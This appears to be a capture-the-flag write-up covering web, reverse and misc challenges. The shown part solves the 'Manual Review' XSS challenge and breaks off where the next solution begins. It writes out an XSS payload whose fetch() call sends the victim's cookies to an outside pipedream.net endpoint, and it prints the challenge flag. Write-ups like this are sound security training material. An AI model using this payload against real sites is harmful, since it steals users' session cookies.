 #### Table of Contents

- [Web](#web)
  - [Manual Review](#manual-review)
  - [the-code](#the-code)
  - [rundown](#rundown)
- [Reverse](#reverse)
  - [better-cat](#better-cat)
- [Misc](#misc)
  - [alien-console](#alien-console)


# <a name="web"></a> Web

## <a name="manual-review"></a> Manual Review

#### Description

>For any coffe machine issue please open a ticket at the IT support department.
>
>Flag format: ctf{sha256}
>
>Goal: The web application contains a vulnerability which allows an attacker to leak sensitive information.

### Solution

After registerig, we are prompted with a form for submitting messages. Trying `<img src onerror="alert(1)"` shows us an error, so it's a XSS. 

![image](https://user-images.githubusercontent.com/38787278/96298054-7db22680-0ffa-11eb-8f03-128bace56340.png)

Let's try to make a request with the cookies. `<img src onerror="fetch('https://aaaaaaaaaa.m.pipedream.net?q=' + btoa(document.cookies)">` is macking the bot to do a GET request to our server. The flag is in the User-Agent header:

![image](https://user-images.githubusercontent.com/38787278/96298671-82c3a580-0ffb-11eb-89d7-7bcfd2110b86.png)

Flag: ctf{ff695564fdb6943c73fa76f9ca5cdd51dd3f7510336ffa3845baa34e8d44b436}

## <a name="the-code"></a> the-code

#### Description
>Look, the code is there. Enjoy.
>
>Flag format: ctf{sha256}
>
>Goal: You receive the source code of a small web application and you have to find the vulnerability to exfiltrate the flag.

### Solution
We get the source code of the page:
